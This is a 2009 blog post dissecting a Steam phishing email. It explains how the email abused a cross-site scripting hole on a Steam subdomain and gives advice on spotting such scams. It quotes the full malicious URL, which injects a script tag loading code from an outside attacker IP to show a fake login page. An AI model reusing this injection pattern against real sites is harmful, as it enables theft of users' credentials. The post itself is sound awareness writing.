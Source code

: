Title: Don't Get Caught In This Steam Phishing Scam - How Phishers Work
Date: 2009-11-02
Author: Seppe "Macuyiko" vanden Broucke

So I just got this mail in my inbox:

![](http://4.bp.blogspot.com/_X4W-h82Vgjw/Su9YncAJhVI/AAAAAAAAPQQ/NilcjCkx6AY/s400/Screenshot1.png)

Needless to say, I was pretty surprised, I didn't know Steam accounts could expire. Sure enough the e-mail looks legit, it's mailed from support@steam.com, didn't get caught by Gmail's spam filter, and the corporate footer looks clean enough. If you have an eye for detail you might notice that there is a space missing here: "click here,login".

Let's check where this link leads to:

![](http://4.bp.blogspot.com/_X4W-h82Vgjw/Su9Zd5oXnvI/AAAAAAAAPQY/jbSCOU8YTno/s400/Screenshot2.png)

    https://cafe.steampowered.com/directory.php?country=AL&amp;state='&gt;<script%20src%3dhttp://92.241.190.202/~faaaaaaa/phising/steam/iframe.js></script%20src%3dhttp://92.241.190.202/~faaaaaaa/phising/steam/iframe.js>

"cafe.steampowered.com" certainly looks okay, but now it becomes clear that the state variable has been tampered with. It certainly points to an external script, and putting it in the "phising" folder really doesn't look good... let's open the link. Here's how it looks in Chrome:

![](http://1.bp.blogspot.com/_X4W-h82Vgjw/Su9aZzEIxVI/AAAAAAAAPQg/vAbzAo3HsXw/s400/Screenshot3.png)

And sure enough, the page looks messed up. Let's look at the generated html source:

![](http://3.bp.blogspot.com/_X4W-h82Vgjw/Su9bOIlV7FI/AAAAAAAAPQo/ooF3xbybE4E/s400/Screenshot4.png)

The phishers have now a fully working script tag injected in the source. Let's see what's in there:

![](http://3.bp.blogspot.com/_X4W-h82Vgjw/Su9bmGpVaBI/AAAAAAAAPQ4/cJCtXXdoDwU/s400/Screenshot5.png)

Basically, the phisher is replacing the document body with an iframe which points to an evil url. Let's take a look at that url:

![](http://4.bp.blogspot.com/_X4W-h82Vgjw/Su9b90RfIzI/AAAAAAAAPRA/KW_g8Rt30l8/s400/Screenshot6.png)

Sure enough, it's a fake Steam login page.

Now you might have noticed that the phisher's attack method wasn't working in Chrome. Using Firefox, on the same machine, opening the URL from the mail immediately gives:

![](http://1.bp.blogspot.com/_X4W-h82Vgjw/Su9cxPr7lcI/AAAAAAAAPRI/K1Q_TDa7NAc/s400/Screenshot7.png)

So, what have we learned?

  - Always check mails for spelling mistakes.
  - Always check mail and browser URLs for suspicious content.
  - If available: trust your spam/phishing filter.
  - If you're asked to re-enable your account and you get redirected to a general login page (like the fake on we saw), you can always open a new tab and go to steampowered.com (or other website) by typing it yourself and login that way.

Which actions should be taken?

  - Chrome, Firefox and others should detect this evil site as a phishing site (they detect most of them already, but new ones take a while before they get picked up).
  - Gmail's spam filter failed here, I reported the e-mail as a phishing scam.
  - Steam has an [XSS](http://en.wikipedia.org/wiki/Cross-site_scripting) exploit in their site which they should fix as soon as possible. Never say that "XSS exploits aren't that dangerous"!
